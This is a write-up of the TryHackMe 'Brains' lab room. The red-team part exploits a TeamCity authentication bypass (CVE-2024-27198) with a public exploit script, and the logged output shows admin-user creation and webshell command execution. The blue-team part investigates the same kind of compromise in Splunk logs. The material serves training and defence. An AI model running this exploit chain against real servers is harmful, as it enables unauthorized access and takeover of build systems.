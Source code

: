 ```yaml
---
title: "TryHackMe: Brains"
categories: [TryHackMe]
tags: [web, authentication bypass, rce, splunk]
render_with_liquid: false
img_path: /images/tryhackme_brains/
image:
  path: room_image.webp
---
```


**Brains** was a room focused on an **authentication bypass** vulnerability in **TeamCity** (**CVE-2024-27198**). We began as an attacker, exploiting the vulnerability to achieve **remote code execution (RCE)** and capture a flag. Afterward, we switched roles to become a defender, using **Splunk** to inspect logs and answer questions related to an attacker who had compromised a machine using the same vulnerability.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/r/room/brains){: .center }

## Red Team

We begin the room on the red side, tasked with attacking a target. Starting with an `nmap` scan.

### Nmap Scan

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.164.206
Nmap scan report for 10.10.164.206
Host is up (0.090s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 20:db:de:8e:f2:10:09:16:55:59:a7:18:06:3b:66:db (RSA)
|   256 78:79:f3:1f:5e:ee:8d:65:3f:9e:42:d9:4f:60:09:63 (ECDSA)
|_  256 5a:d0:1c:6d:c7:76:1d:5e:7a:c0:e7:bd:95:bf:fc:7d (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.41 (Ubuntu)
50000/tcp open  ibm-db2?
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 401
|     TeamCity-Node-Id: MAIN_SERVER
|     WWW-Authenticate: Basic realm="TeamCity"
|     WWW-Authenticate: Bearer realm="TeamCity"
|     Cache-Control: no-store
|     Content-Type: text/plain;charset=UTF-8
|     Date: Fri, 04 Oct 2024 23:37:31 GMT
|     Connection: close
|     Authentication required
|     login manually go to "/login.html" page
...
```

Three ports are open:

- **22** (SSH)
- **80** (HTTP)
- **50000** (HTTP)

### Web 80

Upon visiting `http://10.10.164.206/`, we encounter a simple page displaying a "Maintenance" message.

![Web 80 Index](web_80_index.webp){: width="1200" height="600" }

### Web 50000

Accessing `http://10.10.164.206:50000/`, we find a `TeamCity Version 2023.11.3 (build 147512)` installation.

![Web 50000 Index](web_50000_index.webp){: width="1200" height="600" }

### CVE-2024-27198

Searching for vulnerabilities in `TeamCity Version 2023.11.3`, we discover [this article](https://www.vicarius.io/vsociety/posts/teamcity-auth-bypass-to-rce-cve-2024-27198-and-cve-2024-27199), which details an **authentication vulnerability** in **TeamCity** due to URL parsing. It also explains how this can be exploited for **remote code execution (RCE)** by using the vulnerability to interact with the API, allowing the creation of an admin account that can then be used to upload a malicious plugin.

Looking for available exploits, we find [this exploit](https://github.com/W01fh4cker/CVE-2024-27198-RCE) that automates the aforementioned steps.

After downloading and running the exploit, we gain a shell as the `ubuntu` user and can read the flag located at `/home/ubuntu/flag.txt`.

```console
$ python3 CVE-2024-27198-RCE/CVE-2024-27198-RCE.py -t http://10.10.164.206:50000

 _____                     ____ _ _           ____   ____ _____
|_   _|__  __ _ _ __ ___  / ___(_) |_ _   _  |  _ \ / ___| ____|
  | |/ _ \/ _` | '_ ` _ \| |   | | __| | | | | |_) | |   |  _|
  | |  __/ (_| | | | | | | |___| | |_| |_| | |  _ <| |___| |___
  |_|\___|\__,_|_| |_| |_|\____|_|\__|\__, | |_| \_\\____|_____|
                                      |___/
                                                                            Author: @W01fh4cker
                                                                            Github: https://github.com/W01fh4cker

[+] User added successfully, username: xbbzhkls, password: RdlWm1rrIS, user ID: 11
[+] The target operating system version is linux
[!] The current version is: 2023.11.3 (build 147512). The official has deleted the /app/rest/debug/processes port. You can only upload a malicious plugin to upload webshell and cause RCE.
[!] The program will automatically upload the webshell ofbehinder3.0. You can also specify the file to be uploaded through the parameter -f. Do you wish to continue? (y/n)y
[+] The malicious plugin FAzd42PL was successfully uploaded and is trying to be activated
[+] Successfully load plugin FAzd42PL
[+] The malicious plugin FAzd42PL was successfully activated! Webshell url: http://10.10.164.206:50000/plugins/FAzd42PL/FAzd42PL.jsp
[+] Please start executing commands freely! Type <quit> to end command execution
command > id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd)
command > wc -c /home/ubuntu/flag.txt
38 /home/ubuntu/flag.txt
```
{: .wrap }


## Blue Team

Next, we transition to the blue side, starting by logging into the provided `Splunk` server and navigating to the `Search & Reporting` section.

### Added User

Our first question is: **What is the name of the backdoor user that was created on the server after exploitation?** 

We can find this by searching the `/var/log/auth.log` source for the `useradd` string with the query: `source="/var/log/auth.log" *useradd*`.

We can observe the backdoor user being created on **July 4, 2024**.

![Splunk Useradd](splunk_useradd.webp){: width="1200" height="600" }

### Installed Package

Our next question is: **What is the name of the malicious-looking package installed on the server?** 

To find the answer, we can look for packages installed around the same timeframe as the user creation using the `/var/log/dpkg.log` source with the query: `source="/var/log/dpkg.log" date_month="july" date_mday="4" *install*`.

![Splunk Package Installed](splunk_package_installed.webp){: width="1200" height="600" }

### Plugin Upload

The final question is: **What is the name of the plugin installed on the server after successful exploitation?** 

We can find the answer by searching the `/opt/teamcity/TeamCity/logs/teamcity-activities.log` source for the `plugin` keyword: `source="/opt/teamcity/TeamCity/logs/teamcity-activities.log" *plugin*`.

![Splunk Plugin Upload](splunk_plugin_upload.webp){: width="1200" height="600" }

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>